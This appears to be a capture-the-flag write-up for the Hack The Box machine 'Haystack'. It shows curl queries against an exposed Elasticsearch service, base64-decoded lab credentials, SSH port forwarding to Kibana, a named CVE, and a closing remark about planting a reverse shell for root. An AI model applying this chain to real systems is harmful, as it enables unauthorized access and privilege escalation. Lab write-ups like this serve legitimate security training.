

# Haystack
## IP: 10.129.229.203
First of all I go to /etc/hosts and put 10.129.229.203 haystack.htb

**OPEN PORTS:**
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9200/tcp open  wap-wsp
```

We have a webpage on port 80



We have elasticsearch on port 9200

Some searches:
```
# find all the indices
curl -X GET "http://haystack.htb:9200/_cat/indices?v"

# Get all logs
curl -X GET "http://haystack.htb:9200/quotes/_search?pretty&size=10000"
```

Then I used this to find all the base64 strings:
```
cat all_quotes.txt | grep -Eo '([A-Za-z0-9+/]{20,}={0,2})'
```

After I decoded the *base64* strings I got this:
```
cGFzczogc3BhbmlzaC5pcy5rZXk=
dXNlcjogc2VjdXJpdHkg

###

pass: spanish.is.key
user: security 
```

Then I used next command to see open ports:
```
netstat -tulnp

tcp        0      0 127.0.0.1:5601          0.0.0.0:*               LISTEN      -
```

I will have to set up ssh port forwarding to move on:

```
ssh -L [local-port]:[remote-host]:[remote-port] [user]@[remote-host]
ssh -L 5601:127.0.0.1:5601 security@haystack.htb
```

This is our confirmation that port forwarding is working


The kibana version is 6.4.2
Here is vulnerability: CVE-2018-17246

```
curl -X GET "http://haystack.htb:9200/quotes/_search?pretty" -H "Content-Type: application/json" -d '{
  "query": {
    "match_phrase": {
      "message": "Ejecutar comando :"
    }
  }
}'
```

Next, looking the kibana config especially at the `input.conf` file I found that it executes everything that is in `/opt/kibana/` named `logstash_*`. Therefore, I put a reverse shell there, and got root!